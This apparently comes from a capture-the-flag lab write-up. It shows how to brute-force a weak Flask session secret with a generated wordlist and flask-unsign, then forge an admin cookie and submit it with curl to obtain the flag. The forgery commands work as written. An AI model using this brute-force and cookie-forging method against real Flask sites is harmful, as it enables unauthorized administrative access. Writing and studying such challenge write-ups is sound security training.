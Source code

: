 # Admin3

### Problem

We are given a portion of a website source code which checks for admin status using a Flask cookie. We must find a way to get our flag by pretending to be an admin. 

Right away, I noticed this problem is extremely similar to [Most Cookies](https://github.com/wlmci23/pico21/tree/main/Web%20Exploitation/Most%20Cookies).

### Solution

I received a cookie as follows: 
```
eyJ1c2VyIjoiZ3Vlc3QifQ.YgWYcA.hS04DIsHCB8DkUpFvowDYc2gApM
```

According to flask, the first part is a base64 encoded string of json data, second one is the timestamp, and the third is the hash.

Decoding the JSON gives us: 
```
{"user": "guest"}
```

We must change this to admin to receive the flag.

However directly tampering with the cookie won't work, as the hash would be incorrect. We can brute force each possible secret key. 

I used the tool `flask-unsign` to brute force the secret. However, a wordlist must be generated to use a dictionary attack, and since the secret inside the server file is a 3 letter random string, generating a wordlist is very trivial: (here is a Node.js script)
```js
let val = 'abcdefghijklmnopqrstuvwxyz';
let list = ``;
for(let i = 0; i < val.length; i++) { for(let j = 0; j < val.length; j++) { for(let k = 0; k < val.length; k++) {
list+=`${val.charAt(i)}${val.charAt(j)}${val.charAt(k)}\n`;
}}}
require('fs').writeFileSync('wordlist.txt', list);
```

Using the generated wordlist we can brute force the secret with the command: 
```
flask-unsign -u -c eyJ1c2VyIjoiZ3Vlc3QifQ.YgWYcA.hS04DIsHCB8DkUpFvowDYc2gApM -w wordlist.txt
```

Which showed us the secret key is `oom`. (note each instance of the challenge can have a different key, due to it's random generation)

According to the app.py file, we must change our user to admin to retrieve the flag. So we can craft a new cookie as follows: 
```
flask-unsign --sign --cookie "{'user':'admin'}" --secret 'oom'
```
Which gave me a cookie: 
```
eyJ1c2VyIjoiYWRtaW4ifQ.YgWdpg.MPZ_HY8Oew0NEGlIFQFb1pSoEhA
```

Use a curl request with a `Cookie` header: 
```
curl http://656709f.0x16.ink/ -H "Cookie: session=eyJ1c2VyIjoiYWRtaW4ifQ.YgXTUA.KIGdlldD0DSJOOmKeMmsdhDWFKM;"
```

Our flag is then `flag{third_admin}`